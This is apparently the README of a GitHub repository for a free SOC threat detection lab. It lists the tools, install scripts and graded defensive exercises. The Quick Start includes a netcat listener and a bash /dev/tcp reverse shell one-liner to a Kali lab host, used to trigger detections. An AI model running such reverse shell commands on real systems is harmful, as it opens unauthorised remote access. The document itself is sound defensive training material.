



# 🔬 Advanced Threat Detection Lab

> **A fully free, hands-on SOC analyst lab** — detect attacks as they happen, investigate forensically, enrich with global threat intel, and respond automatically. No paid tools. All production-grade, open-source.

[](https://github.com/sandeepmothukuri/soc-threat-hunting-lab/actions)


---

## 🏗️ Lab Architecture



---

## 🧰 Tools Overview

| # | Tool | Category | IP | What It Detects |
|---|------|----------|----|-----------------|
| 1 | **Zeek** | Network IDS | 192.168.50.10 | DNS tunneling, port scans, webshells, lateral movement |
| 2 | **RITA** | Beaconing Analysis | 192.168.50.10 | C2 callback patterns (statistical analysis) |
| 3 | **Arkime** | Full Packet Capture | 192.168.50.20 | All network sessions, file extraction, JA3 fingerprints |
| 4 | **Velociraptor** | EDR / DFIR | 192.168.50.30 | Live process/file/memory forensics, host hunting |
| 5 | **OSQuery** | Endpoint Visibility | each target | Persistence, SUID, backdoor ports, fileless malware |
| 6 | **MISP** | Threat Intelligence | 192.168.60.10 | Known C2 IPs, malware hashes, phishing domains |
| 7 | **TheHive** | Case Management | 192.168.60.20 | Central alert triage, IR workflows, analyst collaboration |
| 8 | **Shuffle** | SOAR | 192.168.60.30 | Auto-response: block, isolate, notify, ticket |

---

## ⚡ Quick Start

### Prerequisites
- VirtualBox 7.x
- 32GB RAM (24GB minimum)
- 400GB free disk
- Ubuntu 22.04 ISO

### 1. Prepare Your Host

```bash
git clone https://github.com/sandeepmothukuri/soc-threat-hunting-lab.git
cd soc-threat-hunting-lab
sudo ./scripts/setup-host.sh
```

### 2. Build VMs and Install Tools

```bash
# Create 8 VMs following: docs/vm-build-guide.md
# Then SSH into each and run the install script:

# Detection VLAN VMs:
sudo ./01-zeek-rita/install-zeek.sh          # Zeek VM
sudo ./01-zeek-rita/install-rita.sh          # Zeek VM
sudo ./02-arkime/install-arkime.sh           # Arkime VM
sudo SERVER_IP=192.168.50.30 ./03-velociraptor/install-velociraptor.sh

# Target VMs (agents):
sudo ./04-osquery/install-osquery.sh

# Intel VLAN VMs:
sudo MISP_IP=192.168.60.10 ./05-misp/install-misp.sh
sudo HIVE_IP=192.168.60.20 ./06-thehive/install-thehive.sh
sudo SHUFFLE_IP=192.168.60.30 ./07-shuffle/install-shuffle.sh
```

### 3. Verify the Lab

```bash
./scripts/health-check.sh
# Expected: 20 passed, 0 failed
```

### 4. Launch an Attack and Watch Detections Fire

```bash
# On Kali (192.168.20.10): start listener
nc -lvp 4444

# On target (192.168.30.10): reverse shell
bash -i >& /dev/tcp/192.168.20.10/4444 0>&1

# Watch detections (within 60 seconds):
# ✅ Zeek: sees connection in conn.log
# ✅ OSQuery: proc_net_activity fires → alert to TheHive
# ✅ Velociraptor: live hunt shows nc process + network connection
# ✅ TheHive: case auto-created → Shuffle notifies analyst
```

---

## 📚 Module Index



| Module | Directory | Purpose |
|--------|-----------|---------|
| 01 | `01-zeek-rita/` | Passive network monitor + C2 beaconing detector |
| 02 | `02-arkime/` | Full packet capture with session search UI |
| 03 | `03-velociraptor/` | Live endpoint forensics + threat hunting |
| 04 | `04-osquery/` | SQL-based endpoint visibility + scheduled detections |
| 05 | `05-misp/` | Threat intelligence platform + global IOC feeds |
| 06 | `06-thehive/` | SOC case management + Cortex IOC enrichment |
| 07 | `07-shuffle/` | SOAR automation + auto-response workflows |
| 08 | `08-integrations/` | Cross-tool scripts, Sigma rules, IR playbooks |

---

## 🎯 Hands-On Exercises

### 🥉 Beginner
1. **Detect a Port Scan** — Run nmap from Kali, watch Zeek notice.log alert fire
2. **Add an IOC to MISP** — Add a C2 IP, sync to OSQuery, simulate connection, see alert
3. **Run a Velociraptor Hunt** — Use SOCLab.HuntPersistence on all endpoints

### 🥈 Intermediate
4. **Investigate a Webshell** — Plant a PHP webshell, detect via OSQuery + Arkime, pull PCAP evidence
5. **Detect C2 Beaconing** — Use Metasploit Meterpreter, watch RITA beacon score rise
6. **Build a Shuffle Workflow** — Connect 3 tools in a visual automation pipeline

### 🥇 Advanced
7. **Full Incident Response** — End-to-end: Kali attack → detection → TheHive case → Shuffle auto-response
8. **Hunt for Lateral Movement** — Simulate pass-the-hash, map with RITA + Velociraptor across 2 VMs
9. **DFIR Evidence Collection** — Compromise a host, collect full forensic bundle, build timeline

---

## 🛡️ MITRE ATT&CK Coverage



**Full coverage table:** [docs/detection-coverage.md](docs/detection-coverage.md)

---

## 📖 Documentation

| Doc | Description |
|-----|-------------|
| [Architecture](docs/architecture.md) | Data flows, network diagrams, tool integration maps |
| [VM Build Guide](docs/vm-build-guide.md) | Step-by-step VirtualBox VM creation |
| [Detection Coverage](docs/detection-coverage.md) | MITRE ATT&CK coverage matrix |
| [IR Playbooks](08-integrations/playbooks/incident-response-playbooks.md) | Step-by-step incident response guides |

---

## 🔗 Related Project

Built this lab? Also check out the companion **SOC Lab** (SIEM + vulnerability management):
→ [soc-lab-free](https://github.com/sandeepmothukuri/soc-lab-free) — Wazuh, OpenVAS, pfSense, and more

---

## 📜 License

MIT — Free to use, modify, and share. Built for learning. Do not use against systems you don't own.

---

## 👤 Author

**Sandeep Mothukuri**
- GitHub: [@sandeepmothukuri](https://github.com/sandeepmothukuri)
- Portfolio: [github.com/sandeepmothukuri](https://github.com/sandeepmothukuri)

---

## 🗂️ All Repositories

| Repository | Description |
|---|---|
| [ai-soc-lab](https://github.com/sandeepmothukuri/ai-soc-lab) | AI-augmented SOC with Wazuh + TheHive + Ollama (LLaMA3) for automated triage |
| [advanced-soc-lab-v2.0](https://github.com/sandeepmothukuri/advanced-soc-forge) | 12-tool SOC lab with OpenSearch, Suricata, Zeek, MISP, Caldera, Velociraptor |
| [Autonomous-SOC-Lab](https://github.com/sandeepmothukuri/Autonomous-SOC-Lab) | Autonomous SOC with AI-driven detection and self-healing playbooks |
| [soc-threat-hunting-lab](https://github.com/sandeepmothukuri/soc-threat-hunting-lab) | Threat detection lab — Zeek, RITA, Arkime, Velociraptor, OSQuery, MISP |
| [soc-lab-free](https://github.com/sandeepmothukuri/soc-lab-free) | Free SOC lab — OpenVAS, Wazuh, pfSense, Proxmox Mail, Lynis |
| [soc-lab](https://github.com/sandeepmothukuri/soc-lab) | SOC analyst home lab — Wazuh SIEM, Sysmon, MITRE ATT\&CK mapping |
| [cyberblue](https://github.com/sandeepmothukuri/cyberblue) | Containerised blue team platform — SIEM, DFIR, CTI, SOAR, Network Analysis |
